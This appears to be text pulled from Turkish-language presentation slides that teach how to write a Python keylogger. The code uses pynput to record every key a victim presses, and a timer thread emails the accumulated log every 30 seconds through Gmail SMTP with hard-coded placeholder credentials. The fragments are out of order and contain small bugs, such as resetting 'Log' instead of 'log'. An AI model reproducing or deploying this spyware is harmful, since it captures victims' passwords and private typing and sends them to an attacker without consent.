

def send_email(email,passw,message):
    email_server = smtplib.SMTP("smtp.gmail.com",587) #Google'ın verileri
    email_server.starttls()
    email_server.login(email,passw)
    email_server.sendmail(email,email,message)
    email_server.quit()

#Thread - threading

def thread_func():
    global log
    send_email("Deneme123@gmail.com","123123123",log)
    Log = " "
    timer_object = threading.Timer(30,thread_func) #Keylogger_listener ile düzenli bir şekilde çalışması için yazdık.
    timer_object.start()

keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
# Keylogger
-Bilgisayar kullanan herkesin aşina olduğu bu terim kurbanın klavyede bastığı tüm değerleri bize aktarmaktadır.
import pynput.keyboard
import smtplib
import threading
log = ""
def callback_function(key):
    global log
    try:
        log = log +key.char.encode("utf-8") #Türkçe karakterleri ekledik.
        #log = log + str(key.char)

    except AttributeError:
        if key == key.space:
            log = log + " "
        else:
            log = log + str(key)